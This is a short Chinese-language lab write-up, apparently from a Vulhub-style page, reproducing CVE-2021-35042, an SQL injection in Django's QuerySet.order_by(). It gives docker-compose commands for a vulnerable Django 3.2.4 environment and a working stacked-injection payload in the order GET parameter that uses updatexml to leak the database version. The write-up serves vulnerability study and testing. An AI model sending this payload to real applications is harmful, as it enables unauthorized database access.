


Django QuerySet.order_by() SQL 注入漏洞¶
CVE-2021-35042¶
漏洞描述¶
Django 在 2021 年 7 月 1 日发布了一个安全更新，修复了在 QuerySet 底下的 order_by 函数中存在的 SQL 注入漏洞
参考链接:
该漏洞需要用户可控 order_by 传入的值，在预期列的位置注入 SQL 语句。
环境搭建¶
Vulhub 执行如下命令编译及启动一个存在漏洞的 Django 3.2.4：
docker-compose build
docker-compose up -d
环境启动后，访问 http://your-ip:8000 即可看到 Django 默认首页。
漏洞复现¶
访问页面 http://your-ip:8000/vuln/，在 GET 参数中构造 order=-id，会得到根据 id 降序排列的结果：
http://your-ip:8000/vuln/?order=-id

再构造 GET 参数 order=vuln_collection.name);select updatexml(1, concat(0x7e,(select @@version)),1)%23 提交，其中 vuln_collection 是 vuln 应用下的模型 Collection
http://your-ip:8000/vuln/?order=vuln_collection.name);select updatexml(1, concat(0x7e,(select @@version)),1)%23
成功注入 SQL 语句，利用堆叠注入获得信息：
